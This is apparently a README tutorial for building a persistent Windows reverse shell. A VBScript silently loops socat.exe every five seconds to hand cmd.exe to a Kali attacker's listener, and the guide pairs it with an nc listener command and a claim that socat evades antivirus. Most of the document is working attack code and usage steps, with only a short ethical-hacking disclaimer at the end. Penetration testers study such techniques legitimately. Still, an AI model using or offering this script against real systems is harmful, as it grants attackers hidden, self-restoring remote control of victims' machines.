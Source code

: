 # Reverse Shell Using Socat and VBScript

This guide demonstrates how to use **Socat** along with a **VBScript** to establish a reverse shell. The script will ensure that the reverse shell connection is automatically re-established every 5 seconds if it gets disconnected. This method is effective because **Socat** is less likely to be detected by most antivirus software compared to other reverse shell tools.

---

## Prerequisites

- **Socat**: A utility that establishes bidirectional communication between two data streams. It's used to create the reverse shell.
- **VBScript**: A script to monitor and reconnect the reverse shell every 5 seconds.
- **Windows Victim Machine**: The machine you are targeting needs to have **Socat.exe** and the VBScript.
- **Kali Linux Attacker Machine**: Should have a listener running to accept the reverse shell connection.

---

## Workflow

### Step 1: Download Required Files on the Attacker Machine

1. **Download the necessary DLL files and `socat.exe`** for the reverse shell.

   On your **Kali Linux** machine, download the required **Socat executable** and any associated **DLL files**.

2. **Copy the files** to your **Windows victim machine**.

---

### Step 2: Create the VBScript for Reconnection

3. On the **Windows victim machine**, create a file named `reconnect.vbs` in the same directory where `socat.exe` and the DLL files are located. Open Notepad and paste the following code:

```vbscript
Set objShell = CreateObject("wscript.Shell")

Do
    ' Replace <Kali-IP> with the attacker's IP address and <Port> with the desired port number
    objShell.Run "cmd.exe /c socat.exe TCP:<Kali-IP>:<Port> EXEC:cmd.exe,pipes", 0, True
    WScript.Sleep 5000 ' Wait for 5 seconds before retrying
Loop
```

4. **Save** the file as `reconnect.vbs`.

   - Replace `<Kali-IP>` with your **Kali Linux machine's IP address**.
   - Replace `<Port>` with the port you want to use for the reverse shell (e.g., `4444`).

### Step 3: Setup Listener on the Kali Linux Machine

5. On your **Kali Linux** machine, set up a listener using **Netcat** (or **Socat**):

```bash
nc -lvnp <Port>
```

Replace `<Port>` with the port you specified in the VBScript. This listener will accept the reverse shell connection from the victim machine.

---

### Step 4: Execute the Reverse Shell

6. On the **Windows victim machine**, simply **double-click** on the `reconnect.vbs` file to run the script. The script will:

   - Execute the `socat.exe` reverse shell, connecting back to your Kali machine on the specified port.
   - If the connection fails or is lost, the script will automatically retry the connection every 5 seconds.

---

### Step 5: Interaction with the Victim's Shell

7. Once the connection is established, you will have a **remote shell** on the victim machine through the **Kali listener**. You can interact with the victim's **command prompt**.

### Legal Disclaimer

This reverse shell guide is intended for **ethical hacking** and **authorized penetration testing** only. Unauthorized access to computer systems is illegal and unethical. Always get explicit written permission before conducting any tests or activities that may impact a network or system.

